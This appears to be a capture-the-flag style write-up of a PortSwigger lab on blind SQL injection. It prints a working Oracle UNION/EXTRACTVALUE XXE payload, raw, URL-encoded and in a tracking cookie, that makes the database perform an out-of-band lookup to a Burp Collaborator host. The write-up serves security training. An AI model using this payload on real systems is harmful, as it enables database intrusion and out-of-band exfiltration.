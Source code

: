 # Blind SQL injection with out-of-band interaction

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

___
#blind_sql #oracle_database #dns_lookup

**NOTE:** DNS Lookup

![screnshot](./images/lab16_0.png)


step 1

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--`

Burp Collaborator =>  `8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com`

`' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/"> %remote;]>'),'/l') FROM dual--`

URL Encoded =>
`'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`

```sql
TrackingId=uy2rqNgHygVohssd'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//8u3u2igoxnoyvhpu3ecnmejam1ssgi47.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

![screnshot](./images/lab16_1.png)


step 2

go to burp collaborator
click on Poll now you will see DNS received
and your lab  will solved

![screnshot](./images/lab16_2.png)

![screnshot](./images/lab16_3.png)